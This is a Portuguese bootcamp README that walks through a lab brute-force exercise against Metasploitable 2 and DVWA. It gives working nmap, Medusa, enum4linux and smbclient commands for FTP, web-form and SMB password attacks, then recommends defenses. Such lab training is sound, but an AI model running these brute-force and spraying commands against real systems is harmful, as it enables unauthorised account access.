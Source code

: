 # BootcampDIO-SantanderCiberseguranca2025
Simulação de ataque brute force utilizando Kali Linux e Metasploitable 2

Kali Linux e Metasploitable 2 configurados na mesma rede (192.168.1.0/24) para se comunicarem (rodar o comando "ip a" ou "ifconfig" nas duas VMs para obter o IP de cada VM)
IP Kali Linux: 192.168.1.4
IP Metasploitable 2: 192.168.1.5

ping feito do Kali Linux para o Metasploitable 2 com o objetivo de confirmar a conexão entre as VMs 
Comando: ping -c 4 192.168.1.5 

1 etapa: enumeração de portas abertas | ferramenta usada: Nmap 7.95
Objetivo: identificar porta FTP aberta 
Comando: nmap -sV -p 21,22,80,445,139 192.168.1.5

Portas abertas: 
21 - serviço: FTP - versão: vsftpd 2.3.4 
22 - serviço: SSH - versão: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80 - serviço: HTTP - versão: Apach httpd 2.2.8
139 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X 
445 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X 

Identificado que a porta FTP esta aberta usa-se o comando: "ftp (IP da VM Metasploitable)" para confirmar que o serviço esta ativo 

2 etapa: ataque brute force | ferramenta usada: Medusa v2.3

Criação de wordlists:
Para usernames: arquivo usernames.txt contendo as seguintes palavras: msfadmin, user, service, root, admin, test, guest, info, adm, administrator, ftp, admin123, 123admin e qwerty
Comando: echo -e 'msfadmin\nuser\nservice\nroot\nadmin\ntest\nguest\ninfo\nadm\nadministrator\nftp\nadmin123\n123admin\nqwerty' > usernames.txt 

Para senhas: arquivo pass.txt com as seguintes palavras: 123456, password, qwerty, msfadmin, admin, Welcome123, admin123, root, 123admin, pass123
Comando: echo -e '123456\npassword\nqwerty\nmsfadmin\nadmin\nWelcome123\nadmin123\nroot\n123admin\npass123' > pass.txt

Comando brute force: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M ftp -t 10
Resultado - usuario: msfadmin | senha: msfadmin

- Brute force em formulário de login em sistema web (DVWA) -

Comando:
medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 10

Resultado - usuario: admin | senha: password 

- Ataque em cadeia, enumeração smb + password spraying -

Enumeração de usuários usando Enum4Linux:
Comando: enum4linux -a 192.168.1.5 | tee enum4_output.txt 

Password spraying usando Medusa:
Comando: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M smbnt -t 2 -T 50

Resultado - usuario: msfadmin | senha: msfadmin 

Verificando acesso ao smb:
Comando: smbclient -L //192.168.1.5 -U msfadmin 

- Vulnerabilidades: senhas fracas e iguais ao campo user
- Soluções: Implementar 2FA/MFA e recomendar ao usuário que utilize senhas fortes, bloqueio de IPs para múltiplas tentativas de logins, monitoramento de logs e segmentação da rede
- Recomendações para criação de senhas:
mínimo de 12 caracteres, utlizar letras maiúsculas (A-Z) e minúsculas (a-z), utlizar símbolos (!, @, #, $, %, &, *), evitar informações pessoais e organizacionais.





